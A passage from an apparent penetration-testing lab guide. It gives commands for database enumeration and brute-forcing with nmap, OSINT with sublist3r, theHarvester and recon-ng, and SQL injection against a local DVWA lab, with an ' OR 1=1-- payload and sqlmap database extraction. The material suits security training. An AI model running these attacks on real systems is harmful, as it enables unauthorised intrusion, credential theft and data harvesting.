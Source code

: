 **Database Services:**
```bash
# MySQL enumeration
nmap -p 3306 --script mysql-info,mysql-empty-password 192.168.1.10

# PostgreSQL enumeration
nmap -p 5432 --script pgsql-brute 192.168.1.10
```

### 4. OSINT Gathering

**Domain Reconnaissance:**
```bash
# Subdomain enumeration
sublist3r -d target-domain.com

# Email harvesting
theharvester -d target-domain.com -b google,bing,yahoo

# Advanced OSINT with Recon-ng
recon-ng
[recon-ng][default] > workspaces create target_domain
[recon-ng][target_domain] > modules load recon/domains-hosts/google_site_web
```

---

## 🔍 Vulnerability Assessment

### 1. Web Application Testing

**DVWA Lab Setup:**
```bash
# Start DVWA
launch_dvwa.sh

# Access at http://localhost:8080
# Login: admin/password
# Set security level to "Low" for learning
```

**SQL Injection Testing:**
```bash
# Manual testing
# Navigate to SQL Injection page
# Test payload: ' OR 1=1-- 

# Automated testing with SQLMap
sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=YOUR_SESSION_ID; security=low" \
  --dbs

# Extract database information
sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=YOUR_SESSION_ID; security=low" \
  -D dvwa --tables
```
